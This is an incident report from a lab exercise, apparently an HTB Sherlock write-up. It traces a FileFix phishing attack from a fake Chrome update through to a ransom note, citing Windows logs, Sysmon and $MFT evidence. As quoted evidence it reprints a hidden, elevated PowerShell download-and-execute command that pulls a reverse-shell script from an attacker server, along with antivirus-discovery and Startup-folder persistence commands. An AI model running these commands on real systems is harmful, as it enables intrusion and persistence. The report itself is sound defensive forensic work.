










# Incident Report — LogForge (FileFix → Ransomware)

**Analyst:** Carvajal-Hc
**Date:** 2025-08-14
**Classification:** Lab exercise — HTB Sherlock "LogForge" (Medium)
**Environment:** Single Windows workstation (AcmeSys Corp), standalone (WORKGROUP), account `user` (employee "John Miller")

**Confidentiality.** This report documents a controlled lab investigation (HTB Sherlock). All hosts, accounts, addresses, hashes, and data are part of a training scenario and do not correspond to any production system. Attacker infrastructure references are defanged where appropriate.

---

## 1. Executive summary

An employee at AcmeSys Corp searched the web for a phone giveaway ("win iPhone") and was redirected to an attacker-controlled phishing page hosted on Netlify. The page ran a **FileFix** social-engineering lure — a ClickFix variant that instructs the victim to paste a command into the **File Explorer address bar** — disguised as a Chrome update. The pasted command launched an elevated, hidden PowerShell one-liner that downloaded and executed a reverse-shell script (`rev.ps1`) directly in memory.

The reverse shell dropped a masqueraded malware binary (`WindowsUpdate.exe`, internal product name **Virtuoso**) into `C:\Windows\Temp\`. From there the malware enumerated installed security products, staged a batch script (`Cricket.bat`), dropped a renamed **AutoIt** interpreter (`Intranet.pif`), executed a JavaScript payload (`Virtuoso.js`), and established persistence via a Startup-folder shortcut. The final stage wrote a **ransom note** (`README.txt`) claiming AES-256 encryption and demanding contact at `0xSh3rl0cK@protonmail.com`.

**Severity: High.** A single low-privileged user action led to elevated code execution, defense evasion, persistence, and a ransomware-style impact stage. The attack was fileless at the initial stages (no downloaded executable at delivery), and the key impact artifact (the ransom note) survived only as **resident data inside the `$MFT`**, not as a collected file.

### Kill chain at a glance

| Phase | Action | Key artifact |
|-------|--------|--------------|
| Initial access | Web search lure → phishing page → FileFix paste | Chrome history; PowerShell 4104 |
| Execution | Elevated hidden PowerShell → `rev.ps1` in memory | Sysmon EID 1 |
| Execution (stage 2) | `WindowsUpdate.exe` (Virtuoso) dropped & run | Sysmon EID 1 (T1036) |
| Defense evasion | AV/EDR discovery via `tasklist` + `findstr` | Sysmon EID 1 (T1518.001) |
| Execution (tooling) | AutoIt (`Intranet.pif`) runs `Virtuoso.js` | Sysmon EID 1; Prefetch |
| Persistence | `Virtuoso.url` in Startup → `Virtuoso.js` | Sysmon EID 1 (T1547.001) |
| Impact | Ransom note `README.txt` (AES-256, contact email) | `$MFT` resident data (T1486) |

---

## 2. Scope and data sources

The evidence provided was a **KAPE triage image** of the victim workstation. The following artifacts were parsed and analysed:

| Artifact | Tool | Output |
|----------|------|--------|
| Windows Event Logs (`winevt\logs`, incl. Security, Sysmon) | EvtxECmd | `logforge_evtx.csv` |
| `$MFT` | MFTECmd | `logforge_mft.csv` + raw string search |
| Prefetch | PECmd | `logforge_pf.csv` |
| Amcache | AmcacheParser | (no relevant user-app entries) |
| Chrome History (SQLite) | DB Browser for SQLite | `urls`, `downloads` tables |
| `NTUSER.DAT` (RunMRU, RecentDocs) | Registry Explorer | — |

Analysis was performed primarily in **Timeline Explorer** (GUI), with parsers used only to generate CSVs. Sysmon was active on the host prior to the attack, providing rich process-creation (EID 1) and file-creation (EID 11) telemetry that anchored most findings.

---

## 3. Technical analysis

The following sections follow the CDSA structure — for each technique: **Description → Execution → Analysis → Detection.** Screenshots referenced below are in the `Evidence/` folder.

**Timeline anchors.** The last successful interactive logon for account `user` (Security EID 4624, LogonType 2) was **2025-08-11 06:46:52 UTC** — the T0 of the incident; all malicious activity follows it (see `evidence/task01.png`). The last Chrome launch (Prefetch `CHROME.EXE` `LastRun`, see `evidence/task02.png`) placed the browsing session, and the malware staging directories `C:\Windows\{MatthewSouthern, CombinedStarts, PastDesigns, InterestedHobbies, ChancellorFuneral}` were created under `C:\Windows\` (Sysmon EID 11 — see `evidence/task09.png`).

### 3.1 Initial access — phishing lure (Netlify)

**Description.** The user was lured through a web search and redirected to an attacker page hosted on Netlify. Using a legitimate hosting provider gives the domain a good reputation, so it doesn't get flagged by URL-filtering the way a random domain would.

**Execution.** Chrome history (`urls` table, ordered by `last_visit_time DESC`) showed searches for "win iPhone" / "10x iPhone 16 Pro Max" leading to the most recent visited page:

```
https://cool-bunny-55393d.netlify.app/
Page title: "0xSh3rl0ck shared a file with..."
```

**Analysis.** The random Netlify subdomain and the "shared a file" lure title are consistent with a disposable phishing deployment. The attacker handle **0xSh3rl0ck** appears both in the domain seen earlier (`0xsh3rl0ck.github.io`) and the page title.



**Detection.** Web-proxy / DNS logs for newly-registered or free-hosting domains; browser-history review anchored on the last browser launch time (Prefetch `CHROME.EXE` `LastRun`).

- **MITRE:** T1566 (Phishing) / T1189 (Drive-by Compromise)

### 3.2 User execution — FileFix (T1204.004)

**Description.** FileFix is a ClickFix variant: the phishing page instructs the victim to paste a command into the **File Explorer address/search bar** (rather than the Run dialog), an interface that is familiar to users and rarely restricted by IT.

**Execution.** The pasted command was recovered from PowerShell Operational logging (Event ID 4104):

```
Start-Process powershell -Verb RunAs -WindowStyle Hidden -ArgumentList
'-ExecutionPolicy Bypass -NoProfile -Command IEX(New-Object Net.WebClient)
.DownloadString(''http://192.168.26.128:8000/rev.ps1'')'
# chrome.exe --update --fix --hash=1e693edc-bcc1-4503-b898-7c0b2899d03c
```

**Analysis.** The command elevates (`-Verb RunAs`), hides its window (`-WindowStyle Hidden`), bypasses execution policy (`-ExecutionPolicy Bypass -NoProfile`), and downloads-and-executes `rev.ps1` **in memory** via `IEX ... DownloadString`. The trailing `# chrome.exe --update --fix` comment is ignored by PowerShell — it's there so the victim thinks they're running a Chrome update. Because the binary is `powershell.exe` and the user launched it themselves, nothing is written to disk at delivery and email/EDR heuristics have nothing obvious to catch.



**Detection.** The detection has to come from the command line, since the binary is trusted and only the arguments are malicious. A reliable signal is `powershell` with `RunAs` + `Hidden` + `Bypass` + `DownloadString`/`IEX` together.

```
EventCode=4104 ScriptBlockText="*DownloadString*" ScriptBlockText="*IEX*"
```

- **MITRE:** T1204.004 (Malicious Copy and Paste), T1059.001 (PowerShell), T1105 (Ingress Tool Transfer)

### 3.3 Execution — masqueraded payload "Virtuoso" (T1036)

**Description.** The reverse shell dropped and executed a second-stage binary masquerading as a Windows Update component.

**Execution.** Sysmon Event ID 1:

```
Image:        C:\Windows\Temp\WindowsUpdate.exe
Product:      Virtuoso
IntegrityLevel: High
ParentImage:  powershell.exe (running the rev.ps1 IEX/DownloadString)
ProcessGuid:  a5ea900f-9c9f-6899-8201-000000000800
SHA256:       CD1158638BC7BEBB8E2724EF9637A509B38E7195281782254CA0C1BA99D03C3C
RuleName:     technique_id=T1036, technique_name=Masquerading
```



**Analysis.** "WindowsUpdate.exe" runs from `C:\Windows\Temp\` — a user-writable path, not where Windows Update actually lives — with blank version and company metadata but a `Product` field of **Virtuoso**. The parent chain ties it directly to the FileFix PowerShell command. This ProcessGuid is the pivot used for the rest of the child-process analysis.

**Detection.** Alert on executables named after system components running from `\Temp\`; correlate `Image` path against expected install locations; pivot on `ProcessGuid` to enumerate child activity.

- **MITRE:** T1036 (Masquerading), T1105 (Ingress Tool Transfer)

### 3.4 Execution — staging via `Cricket.bat` (T1059.003)

**Description.** The malware staged and executed a batch script from its working directory.

**Execution.** Sysmon Event ID 1, child of `WindowsUpdate.exe`:

```
CommandLine:      "C:\Windows\System32\cmd.exe" /c copy Cricket Cricket.bat & Cricket.bat
CurrentDirectory: C:\Users\user\AppData\Local\Temp\
ParentImage:      C:\Windows\Temp\WindowsUpdate.exe
```



**Analysis.** The malware copies a payload file `Cricket` (no extension) to `Cricket.bat` and immediately runs it — a simple staging step that turns dropped data into an executable script. The staged script path is `C:\Users\user\AppData\Local\Temp\Cricket.bat`.



**Detection.** `cmd /c copy <x> <x>.bat & <x>.bat` patterns; batch files created and executed within seconds from `\Temp\`.

- **MITRE:** T1059.003 (Windows Command Shell)

### 3.5 Defense evasion — security software discovery (T1518.001)

**Description.** Before proceeding, the malware enumerated running processes to detect installed EDR/antivirus products, to adapt its behaviour for unattended access.

**Execution.** A sequence of `tasklist` + `findstr` commands (children of the `Cricket.bat` cmd), ordered by Sysmon UtcTime:

```
07:32:48.728  tasklist
07:32:48.733  findstr /I "wrsa opssvc"                                        (1st AV check)
07:32:48.932  tasklist
07:32:48.933  findstr -I "avastui avgui bdservicehost nswscsvc sophoshealth"  (2nd AV check)
```

**Analysis.** The `findstr` argument lists are process names of security products: `wrsa` (Webroot); `avastui`/`avgui` (Avast/AVG), `bdservicehost` (Bitdefender), `nswscsvc` (Norton), `sophoshealth` (Sophos). The pattern is `tasklist` piped into `findstr` for those names — a clear discovery signal, since nothing legitimate greps the process list for AV vendors. The two `findstr` runs were only 200 ms apart, so I had to order them by their millisecond timestamps to tell which was the second one the task asked for.



**Detection.** Command lines containing security-vendor process names as `findstr`/`where`/`Select-String` arguments; multiple `tasklist` executions in rapid succession by a non-interactive parent.

- **MITRE:** T1518.001 (Security Software Discovery), T1057 (Process Discovery)

### 3.6 Execution — AutoIt interpreter dropped as `.pif` (T1036 / T1059)

**Description.** The attacker dropped a legitimate automation utility under a legacy file extension to run a script payload.

**Execution.** Sysmon Event ID 1:

```
Image:            C:\Users\user\AppData\Local\Temp\316094\Intranet.pif
Product:          AutoIt v3 Script
Company:          AutoIt Team
OriginalFileName: AutoIt3.exe
FileVersion:      3, 3, 14, 3
ProcessGuid:      a5ea900f-9ca1-6899-8c01-000000000800
SHA256:           D8B7C7178FBADBF169294E4F29DCE582F89A5CF372E9DA9215AA082330DC12FD
```



**Analysis.** `Intranet.pif` is **AutoIt3.exe v3.3.14.3** renamed to the legacy `.pif` extension (Windows still executes `.pif` as a program). AutoIt is a legitimate automation tool abused to run malicious scripts while blending in. The interpreter ran twice in a short parent/child chain, then dropped and executed a JavaScript payload.

The dropped interpreter's full path was confirmed in the `$MFT` (see `evidence/task12.png`).

**Detection.** `.pif` files executing from `\Temp\`; PE `Product`/`OriginalFileName` of `AutoIt` on a file with a mismatched name/extension; Amcache/Prefetch entries for renamed interpreters.

- **MITRE:** T1036 (Masquerading), T1059 (Command and Scripting Interpreter)

### 3.7 Execution — JavaScript payload `Virtuoso.js` (T1059.007)

**Description.** The AutoIt interpreter dropped a JavaScript file that became the persistent payload.

**Execution.** `Virtuoso.js` was created by `Intranet.pif` (confirmed via Sysmon EID 11 pivoting on the AutoIt ProcessGuid) and later referenced by the persistence entry at `C:\Users\user\AppData\Local\Immersive Creations Co\Virtuoso.js`.



**Analysis.** `Virtuoso.js` is the payload that runs on every logon (see persistence). Naming aligns with the malware's `Product` field (Virtuoso), tying the stages together.

**Detection.** `.js` files created under `AppData\Local\<random vendor name>\`; script files created by a renamed interpreter.

- **MITRE:** T1059.007 (JavaScript)

### 3.8 Persistence — Startup-folder shortcut (T1547.001)

**Description.** The malware established logon persistence by writing a `.url` shortcut into the user's Startup folder, pointing at the JavaScript payload.

**Execution.** Sysmon Event ID 1 (decoded from HTML-encoded `&gt;` / `&amp;`):

```
cmd /k echo [InternetShortcut] > "C:\Users\user\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\Virtuoso.url"
  & echo URL="C:\Users\user\AppData\Local\Immersive Creations Co\Virtuoso.js" >> "...\Startup\Virtuoso.url"
  & exit
```



**Analysis.** Anything in `...\Start Menu\Programs\Startup\` executes at logon. The `Virtuoso.url` internet-shortcut points to `Virtuoso.js`, so the payload re-runs on every user logon — durable persistence with no registry Run key and no scheduled task.

**Detection.** File creation of `.url`/`.lnk` in Startup folders; `echo [InternetShortcut]` command lines; new autostart entries pointing to script files in user-writable paths.

- **MITRE:** T1547.001 (Registry Run Keys / Startup Folder)

### 3.9 Impact — ransom note (T1486)

**Description.** The final stage presented a ransom note in Notepad claiming the victim's files were encrypted.

**Execution.** The note did **not** survive as a collected file — the KAPE triage did not capture the staging/Temp directories. It was recovered as **resident data inside the `$MFT`**. Because the content was stored in UTF-16, ASCII `findstr` missed it; reading the `$MFT` in Unicode surfaced the full note:

```
README.txt
-----[YOUR FILES ARE ENCRYPTED]-----
All your important files have been encrypted using AES-256.
You have 72 ours to pay or lose your data.
Contact: 0xSh3rl0cK@protonmail.com
```

Recovery method:

```powershell
Select-String -Path '<triage>\C\$MFT' -Pattern 'sh3rl0ck' -Encoding Unicode
```



**Analysis.** Small text files are stored **resident** within their MFT record (content inline, not in a separate cluster), so the ransom note persisted in the `$MFT` even though the file itself was absent from the triage. The attacker contact is `0xSh3rl0cK@protonmail.com` (note the capital K), consistent with the `0xSh3rl0ck` handle seen at initial access.

**Detection.** Files named `README`/`DECRYPT` in user paths; ransom-note keyword strings; for recovery, always read the raw `$MFT` in both ASCII and Unicode encodings when a small text artifact is expected but not collected.

- **MITRE:** T1486 (Data Encrypted for Impact)

---

## 4. Indicators of Compromise (IoCs)

| Type | Value | Context |
|------|-------|---------|
| URL (phishing) | `https://cool-bunny-55393d.netlify.app/` | FileFix landing page |
| URL (payload) | `http://192.168.26.128:8000/rev.ps1` | Reverse-shell download |
| IP:Port (C2) | `192.168.26.128:8000` | Attacker HTTP server |
| File | `C:\Windows\Temp\WindowsUpdate.exe` | Masqueraded malware (Product: Virtuoso) |
| SHA256 | `CD1158638BC7BEBB8E2724EF9637A509B38E7195281782254CA0C1BA99D03C3C` | WindowsUpdate.exe |
| File | `C:\Users\user\AppData\Local\Temp\316094\Intranet.pif` | AutoIt v3.3.14.3 (renamed AutoIt3.exe) |
| SHA256 | `D8B7C7178FBADBF169294E4F29DCE582F89A5CF372E9DA9215AA082330DC12FD` | Intranet.pif |
| File | `C:\Users\user\AppData\Local\Temp\Cricket.bat` | Staged batch script |
| File | `C:\Users\user\AppData\Local\Immersive Creations Co\Virtuoso.js` | Persistent JS payload |
| File | `...\Start Menu\Programs\Startup\Virtuoso.url` | Persistence shortcut |
| Directories | `C:\Windows\{MatthewSouthern, CombinedStarts, PastDesigns, InterestedHobbies, ChancellorFuneral}` | Malware-created staging dirs |
| Email | `0xSh3rl0cK@protonmail.com` | Attacker contact (ransom note) |
| Handle | `0xSh3rl0ck` | Attacker alias |

---

## 5. MITRE ATT&CK mapping

| Tactic | Technique | ID |
|--------|-----------|-----|
| Initial Access | Phishing | T1566 |
| Execution | User Execution: Malicious Copy and Paste (FileFix) | T1204.004 |
| Execution | PowerShell | T1059.001 |
| Execution | Windows Command Shell | T1059.003 |
| Execution | JavaScript | T1059.007 |
| Command & Control | Ingress Tool Transfer | T1105 |
| Defense Evasion | Masquerading | T1036 |
| Discovery | Security Software Discovery | T1518.001 |
| Discovery | Process Discovery | T1057 |
| Persistence | Registry Run Keys / Startup Folder | T1547.001 |
| Impact | Data Encrypted for Impact | T1486 |

---

## 6. Recommendations

**Immediate**
- Isolate the host; the persistence entry (`Virtuoso.url` → `Virtuoso.js`) re-runs the payload on every logon and must be removed before reconnect.
- Remove `WindowsUpdate.exe`, `Intranet.pif`, `Cricket.bat`, `Virtuoso.js`, `Virtuoso.url`, and the `C:\Windows\` staging directories; reset the `user` credentials.
- Block the C2 `192.168.26.128:8000` and the phishing domain at the network egress.

**Short-term**
- Enforce PowerShell Constrained Language Mode and enable/retain ScriptBlock (4104) and Module logging fleet-wide — 4104 was the source that recovered the initial FileFix command.
- Restrict access to the File Explorer address bar / Run dialog for standard users via policy where feasible — that paste step is what FileFix depends on.
- Deploy command-line auditing (Sysmon + process command-line capture) — every stage here was caught by argument inspection, not binary detection.

**Structural**
- User-awareness training focused specifically on paste-to-verify lures: no legitimate site asks a user to paste a command into File Explorer or Run to "verify" or "update".
- Application control (WDAC/AppLocker) to block execution from `\Temp\` and to flag renamed interpreters (AutoIt, mshta) and `.pif` execution.
- Alerting on Startup-folder writes and on security-vendor process names appearing in command lines.

---

## 7. Appendix — key commands and queries

```
# Parse the triage (KAPE output)
EvtxECmd.exe  -d "<triage>\C\Windows\System32\winevt\logs" --csv <out> --csvf logforge_evtx.csv
MFTECmd.exe   -f "<triage>\C\$MFT"                          --csv <out> --csvf logforge_mft.csv
PECmd.exe     -d "<triage>\C\Windows\Prefetch"             --csv <out> --csvf logforge_pf.csv

# Timeline Explorer filters used
Security 4624 : EventId = 4624 AND PayloadData2 contains "LogonType 2"   -> last logon (T0)
Prefetch      : ExecutableName contains CHROME -> LastRun                -> last browser launch
PowerShell    : EventId = 4104 AND ScriptBlockText contains "http"       -> FileFix command
Sysmon        : Provider contains sysmon AND EventId = 1                 -> process chain
Sysmon pivot  : Payload contains <ProcessGuid>                           -> child processes / files created

# Chrome history (DB Browser for SQLite)
SELECT url, title, visit_count, last_visit_time FROM urls ORDER BY last_visit_time DESC;

# Recover the ransom note resident in the $MFT (content stored in UTF-16)
Select-String -Path "<triage>\C\$MFT" -Pattern 'sh3rl0ck' -Encoding Unicode
```

---

## 8. Analyst notes

A few things from working this case that are worth writing down.

